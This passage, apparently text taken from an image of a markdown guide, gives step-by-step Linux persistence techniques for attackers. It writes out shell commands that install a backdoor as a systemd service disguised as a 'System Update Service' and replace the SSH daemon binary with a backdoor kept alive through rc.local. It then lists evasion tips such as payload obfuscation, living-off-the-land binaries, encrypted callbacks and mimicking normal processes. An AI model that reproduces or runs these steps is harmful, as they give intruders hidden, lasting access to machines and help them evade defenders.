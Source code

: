 
### 2. Custom Service Method
Create service file:
```bash
echo "[Unit]
Description=System Update Service
[Service]
ExecStart=/bin/bash /path/to/backdoor.sh
Restart=always
[Install]
WantedBy=multi-user.target" > /etc/systemd/system/sysupdate.service
```

Enable and start:
```bash
systemctl enable sysupdate
systemctl start sysupdate
systemctl status sysupdate  # Verify
```

---

### 3. Binary Hijacking (SSH Example)
```bash
# Identify target binary
which sshd

# Replace binary
mv /usr/sbin/sshd /usr/sbin/sshd.bak
cp /path/to/backdoor /usr/sbin/sshd
chmod +x /usr/sbin/sshd

# Restart service
systemctl restart sshd

# Add to rc.local for backup
echo "/usr/sbin/sshd" >> /etc/rc.local
```

---

### Evasion Techniques
- **Payload Obfuscation**: 
  - Encrypt/hash your payloads
  - Use living-off-the-land binaries (LOLBins)
  
- **Communication Security**:
  - Always use encrypted channels (SSL/TLS)
  - Implement certificate pinning

- **Behavioral Blending**:
  - Randomize callbacks times
  - Mimic normal user/process patterns
  - Limit CPU/memory usage
